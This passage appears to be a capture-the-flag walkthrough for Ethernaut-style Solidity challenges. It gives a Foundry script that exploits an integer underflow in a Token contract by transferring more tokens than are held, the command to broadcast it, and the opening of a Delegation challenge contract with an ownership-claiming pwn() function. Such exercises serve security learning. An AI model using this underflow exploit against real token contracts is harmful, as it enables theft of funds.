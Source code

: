 **Level5Solution.s.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "../src/Level5.sol";
import "forge-std/Script.sol";
import "forge-std/console.sol";

contract Level5Sol is Script{

    Token public level5 = Token(0xf363A66580c0E202396333d08Fc53e18cbcc625F);

    function run() external{
    
    vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
    console.log("total supply:",level5.totalSupply());
    level5.transfer(address(0),21);
    console.log("MY balance:",level5.balanceOf(vm.envAddress("MY_ADDRESS")));
    vm.stopBroadcast();
    }
}

```

**To run the script**

```
$ source .env
$ forge script script/Level5Solution.s.sol:Level5Sol --rpc-url $RPC_URL --broadcast
```

## Delegation

**Level6.sol**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

//objective:
//claim ownership 

contract Delegate {

  address public owner;

  constructor(address _owner) {
    owner = _owner;
  }

  function pwn() public {
    owner = msg.sender;
  }
}

contract Delegation {

  address public owner;
  Delegate delegate;

  constructor(address _delegateAddress) {
    delegate = Delegate(_delegateAddress);
    owner = msg.sender;
  }
```